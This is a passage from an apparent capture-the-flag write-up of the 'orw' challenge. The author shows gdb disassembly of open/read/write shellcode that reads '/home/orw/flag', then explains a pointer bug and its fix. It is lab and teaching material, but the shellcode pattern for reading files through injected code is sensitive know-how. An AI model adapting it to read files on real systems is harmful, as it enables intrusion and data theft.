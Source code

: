 Even the 2nd attempt is not working. See below for the humiliating defeat. ᕙ(⇀‸↼‶)ᕗ
```
(gdb) x/32i $eax
   0x804a060 <shellcode>:	mov    eax,0x5
   0x804a065 <shellcode+5>:	push   0x67616c66
   0x804a06a <shellcode+10>:	push   0x2f77726f
   0x804a06f <shellcode+15>:	push   0x2f656d6f
   0x804a074 <shellcode+20>:	push   0x682f0000
   0x804a079 <shellcode+25>:	add    bl,ah
   0x804a07b <shellcode+27>:	xor    ecx,ecx
   0x804a07d <shellcode+29>:	xor    edx,edx
   0x804a07f <shellcode+31>:	int    0x80
   0x804a081 <shellcode+33>:	add    bl,al
   0x804a083 <shellcode+35>:	mov    eax,0x3
   0x804a088 <shellcode+40>:	mov    ecx,0x804a100
   0x804a08d <shellcode+45>:	mov    edx,0x28
   0x804a092 <shellcode+50>:	int    0x80
   0x804a094 <shellcode+52>:	mov    al,0x4
   0x804a096 <shellcode+54>:	xor    ebx,ebx
   0x804a098 <shellcode+56>:	mov    ecx,0x804a100
   0x804a09d <shellcode+61>:	int    0x80
   0x804a09f <shellcode+63>:	or     al,BYTE PTR [eax]
   0x804a0a1 <shellcode+65>:	add    BYTE PTR [eax],al
   0x804a0a3 <shellcode+67>:	add    BYTE PTR [eax],al
   0x804a0a5 <shellcode+69>:	add    BYTE PTR [eax],al
   0x804a0a7 <shellcode+71>:	add    BYTE PTR [eax],al
   0x804a0a9 <shellcode+73>:	add    BYTE PTR [eax],al
   0x804a0ab <shellcode+75>:	add    BYTE PTR [eax],al
   0x804a0ad <shellcode+77>:	add    BYTE PTR [eax],al
   0x804a0af <shellcode+79>:	add    BYTE PTR [eax],al
   0x804a0b1 <shellcode+81>:	add    BYTE PTR [eax],al
   0x804a0b3 <shellcode+83>:	add    BYTE PTR [eax],al
   0x804a0b5 <shellcode+85>:	add    BYTE PTR [eax],al
   0x804a0b7 <shellcode+87>:	add    BYTE PTR [eax],al
   0x804a0b9 <shellcode+89>:	add    BYTE PTR [eax],al
```

### Picking up what's left of my dignity

So, I decided to find out where I went wrong. I realised that I made a *grave mistake*:
```
push 0x0
push 0x67616c66
push 0x2f77726f
push 0x2f656d6f
push 0x682f0000
mov ebx, esp    <- The big failure is here
```
That mistake results in `ebx` pointing to `"\0\0/home/orw/flag"`. There are 2 extra `\0`. That is why my program never returned a flag; because the shell could not even open the file.

So, I changed `mov ebx, esp` to `lea ebx, [esp +0x2]` to remove the 2 `\0` characters.
